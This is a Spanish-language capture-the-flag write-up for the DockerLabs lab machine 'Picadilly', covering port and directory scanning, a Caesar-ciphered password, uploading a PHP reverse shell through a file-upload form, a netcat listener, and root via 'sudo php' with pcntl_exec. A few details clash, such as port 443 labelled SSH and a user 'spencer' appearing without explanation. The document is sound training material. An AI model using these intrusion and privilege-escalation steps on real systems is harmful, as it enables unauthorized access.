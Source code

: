 ```yaml
---
title: Picadilly - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | kaikoperez        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/857b077a-8e60-4fab-bc4b-2011e3d219dd)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `443` (SSH)
- `80` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p80,443 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/454db12c-80e6-4883-b45e-bd5ebedde5cd)

# Exploración Web
Al navegar en el puerto `80`, encontramos un archivo `backup.txt` que contiene la siguiente información encriptada:

![image](https://github.com/user-attachments/assets/c223e6da-3c42-4ce9-8f6c-135dac67d123)

```txt
/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

Esto indica que el texto está encriptado mediante el **cifrado César** (un método antiguo donde se desplazan letras en el alfabeto). Aplicando el cifrado César, descubrimos que la palabra encriptada `hdvbfuadcb` se traduce como `easycrazy`.

![image](https://github.com/user-attachments/assets/b267e0da-c76c-4e08-b998-d81d1639215d)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/4124f3fa-0b88-4c21-896b-45ff077a1736)

Observamos que el puerto `443` responde al nombre `picadilly.lab`, así que añadimos este dominio en `/etc/hosts` y accedemos a esta página, donde encontramos una sección de subida de archivos y una ruta `uploads.php` en el código fuente.

![image](https://github.com/user-attachments/assets/fc002df1-e9f5-4c21-be95-0544d4f4068c)

## Intrusión en la Máquina
Aprovechamos la sección de subida de archivos para cargar una reverseshell en PHP. ara esto, generamos una reverseshell desde **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

### Pasos para Cargar la Reverseshell

1. **Preparar la Reverseshell**: Configuramos la reverseshell en nuestro sistema..
2. **Subir el Archivo**: Cargamos el archivo en la sección de subida.
3. **Ejecutar la Reverseshell**: Accedemos a la ruta de la reverseshell cargada para activar la conexión.

En paralelo, escuchamos en nuestro sistema usando `netcat`:
```bash 
nc -lvnp 4444
```

Luego, accedemos a la ruta de la página web donde hemos cargado la reverseshell:

![image](https://github.com/user-attachments/assets/4f49a3e9-f08d-4bdb-8af7-ea29c73bed4a)

Obtuvimos acceso inicial al servidor como www-data.

![image](https://github.com/user-attachments/assets/ec688504-bc7e-4c03-8809-5fa9760664b2)

## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Istrucion usuario www-data.

Como antes habiamos encontrado una contraeña llamada `easycrazy` vamos a ver si es de algun usuario del sistema. Para ello usaremos `ls -l /home` y vemos que el usuario es `mateo`.

![image](https://github.com/user-attachments/assets/b703bddc-c886-4dbb-9877-84bbd57f3cf0)

Si accedemosa ese usuario vemos que la conexion se ha establecido con esa contraseña.

![image](https://github.com/user-attachments/assets/01465b34-8ce9-469b-8910-b2c940c1ea72)

# Escalada de privilegios

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `php` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/e3dbe429-7ac7-4042-a694-18af209e67b1)

```bash
sudo /usr/bin/php -r "pcntl_exec('/bin/sh', ['-p']);"
```

Con este comando, obtuvimos acceso root.

![image](https://github.com/user-attachments/assets/f15c6502-638b-45a7-a34e-555f458897ef)
